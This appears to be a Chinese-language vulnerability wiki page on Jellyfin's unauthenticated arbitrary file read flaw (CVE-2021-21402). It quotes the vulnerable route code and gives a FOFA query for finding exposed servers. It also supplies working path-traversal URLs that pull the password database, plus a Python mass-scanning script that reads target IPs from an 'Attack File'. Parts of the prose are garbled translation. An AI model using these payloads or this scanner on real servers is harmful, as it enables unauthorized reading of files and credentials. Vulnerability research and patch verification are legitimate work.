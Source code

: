 # Jellyfin 任意文件读取漏洞 CVE-2021-21402

## 漏洞描述

Jellyfin是一个免费软件媒体系统。在10.7.1版之前的Jellyfin中，带有某些终结点的精心设计的请求将允许从Jellyfin服务器的文件系统中读取任意文件。当Windows用作主机OS时，此问题更为普遍。暴露于公共Internet的服务器可能会受到威胁。在版本10.7.1中已修复此问题。解决方法是，用户可以通过在文件系统上实施严格的安全权限来限制某些访问，但是建议尽快进行更新。

## 漏洞影响

> [!NOTE]
>
> Jellyfin < 10.7.1

## FOFA

> [!NOTE]
>
> title='Jellyfin' || body='http://jellyfin.media'

## 漏洞复现

无论是`/Audio/{Id}/hls/{segmentId}/stream.mp3`和`/Audio/{Id}/hls/{segmentId}/stream.aac`路线允许任意文件在Windows上读取。可以`{segmentId}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。最初，攻击者似乎只能读取以`.mp3`和`.aac`结尾的文件。但是，通过在URL路径中使用斜杠

Path.GetExtension(Request.Path)`返回一个空扩展名，从而获得对结果文件路径的完全控制。的`itemId，因为它没有使用也没有关系。该问题不仅限于Jellyfin文件，因为它允许从文件系统读取任何文件。

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] // [1]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.mp3", Name = "GetHlsAudioSegmentLegacyMp3")]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.aac", Name = "GetHlsAudioSegmentLegacyAac")]
//...
public ActionResult GetHlsAudioSegmentLegacy([FromRoute, Required] string itemId, [FromRoute, Required] string segmentId)
{
    // TODO: Deprecate with new iOS app
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    file = Path.Combine(_serverConfigurationManager.GetTranscodePath(), file);

    return FileStreamResponseHelpers.GetStaticFileResult(file, MimeTypes.GetMimeType(file)!, false, HttpContext);
}
```

使用如下请求将会读取带有密码的数据库文件

```
http://xxx.xxx.xxx.xxx /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ 
```

另一处代码如下

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] //[1]
[HttpGet("Videos/{itemId}/hls/{playlistId}/{segmentId}.{segmentContainer}")]
//...
public ActionResult GetHlsVideoSegmentLegacy(
    [FromRoute, Required] string itemId,
    [FromRoute, Required] string playlistId,
    [FromRoute, Required] string segmentId,
    [FromRoute, Required] string segmentContainer)
{
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    var transcodeFolderPath = _serverConfigurationManager.GetTranscodePath();

    file = Path.Combine(transcodeFolderPath, file); //[3]

    var normalizedPlaylistId = playlistId;

    var filePaths = _fileSystem.GetFilePaths(transcodeFolderPath);
    // Add . to start of segment container for future use.
    segmentContainer = segmentContainer.Insert(0, ".");
    string? playlistPath = null;
    foreach (var path in filePaths)
    {
        var pathExtension = Path.GetExtension(path);
        if ((string.Equals(pathExtension, segmentContainer, StringComparison.OrdinalIgnoreCase)
                || string.Equals(pathExtension, ".m3u8", StringComparison.OrdinalIgnoreCase)) //[4]
            && path.IndexOf(normalizedPlaylistId, StringComparison.OrdinalIgnoreCase) != -1) //[5]
        {
            playlistPath = path;
            break;
        }
    }

    return playlistPath == null
        ? NotFound("Hls segment not found.")
        : GetFileResult(file, playlistPath);
}
```

该`/Videos/{Id}/hls/{PlaylistId}/{SegmentId}.{SegmentContainer}`路由允许在Windows上读取未经身份验证的任意文件。可以`{SegmentId}.{SegmentContainer}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。在`SegmentId`从和文件扩展名`Path`被级联。结果`file`用作`Path.Combine`[3]的第二个参数。但是，如果第二个参数是绝对路径，则第一个参数to将`Path.Combine`被忽略，而得到的路径仅是绝对路径`file`。

POC如下，下载同样的文件

```
http://xxx.xxx.xxx.xxx/Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db
```

如上为证明漏洞存在和可利用性，详情链接参考

https://securitylab.github.com/advisories/GHSL-2021-050-jellyfin/

## 漏洞POC

```
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Jellyfin < 10.7.1                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=2)
        if response.status_code == 200 and "file" in response.text and "extension" in response.text and "font" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞(读取 windows/win.ini), 链接为:{} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](resource/Jellyfin-任意文件读取漏洞-CVE-2021-21402/media/1.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Jellyfin 10.7.0 Unauthenticated Abritrary File Read CVE-2021-21402

![](resource/Jellyfin-任意文件读取漏洞-CVE-2021-21402/media/2.png)
